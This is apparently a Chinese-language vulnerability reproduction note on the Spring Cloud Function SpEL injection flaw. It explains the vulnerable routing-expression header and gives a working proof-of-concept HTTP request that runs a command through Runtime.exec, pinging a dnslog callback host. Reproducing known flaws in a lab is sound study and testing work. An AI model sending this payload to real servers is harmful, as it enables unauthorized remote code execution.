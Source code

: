 # Spring Cloud Function SPEL 远程命令执行漏洞

## 漏洞描述

Spring Cloud Function 是基于Spring Boot 的函数计算框架，它抽象出所有传输细节和基础架构，允许开发人员保留所有熟悉的工具和流程，并专注于业务逻辑。 由于Spring Cloud Function中RoutingFunction类的apply方法将请求头中的“spring.cloud.function.routing-expression”参数作为Spel表达式进行处理，造成了Spel表达式注入漏洞，未经授权的远程攻击者可利用该漏洞执行任意代码。

## 漏洞影响

```
Spring Cloud Function
```

## 环境搭建

- https://github.com/spring-cloud/spring-cloud-function/tree/main/spring-cloud-function-samples/function-sample-pojo

## 漏洞复现

搭建后访问

![image-20220519160206177](./images/202205191602220.png)

发送POC

```
POST /functionRouter HTTP/1.1
Host: 192.168.1.27:9000
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("ping -c 1 dxytoy.dnslog.cn")
Content-Length: 1
```

接收到请求

![image-20220519160240168](./images/202205191602216.png)